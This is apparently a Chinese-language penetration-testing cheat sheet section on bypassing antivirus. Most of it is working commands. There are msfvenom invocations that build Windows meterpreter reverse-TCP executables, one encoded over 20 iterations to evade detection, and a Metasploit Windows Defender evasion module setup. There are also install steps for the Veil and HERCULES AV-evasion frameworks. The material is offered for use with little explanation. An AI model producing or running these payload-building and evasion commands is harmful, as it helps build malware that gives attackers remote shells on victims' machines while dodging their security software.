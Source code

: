 
# 通用/BypassAV

**杀软速查**
- [r00tSe7en/get_AV](https://github.com/r00tSe7en/get_AV)

**msfvenom**

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe`

`msfvenom -a x64 --platform windows -p windows/meterpreter/reverse_tcp LHOST=xx.xxx.xxx.xxx LPORT=xxxx -e x64/shikata_ga_nai -i 20 -f exe > ./vu.exe`

**Metasploit**
```bash
use evasion/windows/windows_defender_exe
set payload windows/x64/meterpreter/reverse_tcp
set lhost
set lport
run
```

**[Veil](https://github.com/Veil-Framework/Veil)**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/setup/
sudo ./setup.sh –c
sudo ./Veil.py
```

**[HERCULES](https://github.com/noosec/HERCULES)**
```bash
确保电脑里有 Go
git clone https://github.com/noosec/HERCULES.git
cd HERCULES
wget -c https://github.com/fatih/color
go get github.com/fatih/color
go run Setup.go
cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
cd SOURCE/
go run HERCULES.go
```

**ASWCrypter**

**VENOM**

**[foolav](https://github.com/hvqzao/foolav)**

---

# 隐匿攻击